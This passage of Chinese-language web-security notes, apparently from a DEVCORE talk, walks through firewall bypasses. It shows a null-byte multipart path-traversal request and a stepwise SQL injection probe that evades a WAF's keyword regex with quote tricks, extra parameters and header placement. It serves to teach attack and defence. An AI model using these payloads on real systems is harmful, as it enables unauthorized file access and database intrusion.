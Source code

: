 6. 路徑再塞入 null byte
```request
POST /download.php HTTP/1.1 
Host: devco.re 
Content-Type: multipart/form-data; boundary=x 
Content-Length: (auto) 

--x\0
Content-Disposition: form-data; name="path"; 

../download.php\0
--x\0 
Content-Disposition: form-data; name="file"; 

s101.pdf 
--x-- 
```
![image](https://hackmd.io/_uploads/SkzQT83E1g.png)

### 繞過案例 (二): Content-Type Confusion - SQLi
```HTTP
POST /action HTTP/1.1 
Host: devco.re 
Content-Type: application/x-www-form-urlencoded
Content-Length: (auto) 
 
action=search&query=DEVCORE
```
1. 針對 Ｑuery 注入，但單引號(`'`)伺服器回應500
2. 兩個單引號(`'` `'`) 200 OK，但查無結果
3. 兩個單引號(`'||'`) 200 OK，且結果正確
![image](https://hackmd.io/_uploads/BJ0ERU2Vye.png)

4. 嘗試 `' order by 1 --` 403 WAF 阻擋
5. 嘗試 `' or` 403 WAF 阻擋
![image](https://hackmd.io/_uploads/H19NkwnNke.png)
> or 會被阻擋

>[!Important]
> 經驗值+1
> 推測：`/'.*(or|select|-- ..)/`

6. 再塞入一個參數，仍會變被 WAF 偵測到
```HTTP
POST /action HTTP/1.1 
Host: devco.re 
Content-Type: application/x-www-form-urlencoded
Content-Length: (auto) 
 
action=search&query=DEVCORE&xx'&orxx
```
7. 單引號再塞入一個參數 200 OK，且結果正確
![image](https://hackmd.io/_uploads/ry9tlv34Jx.png)
8. Header 中塞入黑名單，測試 WAF 會不會偵測: 200 OK，且結果正確
```HTTP
POST /action HTTP/1.1 
Host: devco.re 
Content-Type: application/x-www-form-urlencoded
Foo: xx'orxx
Content-Length: (auto) 
 
action=search&query=DEVCORE
```
9. multipart/form-data: 200 OK，且結果正確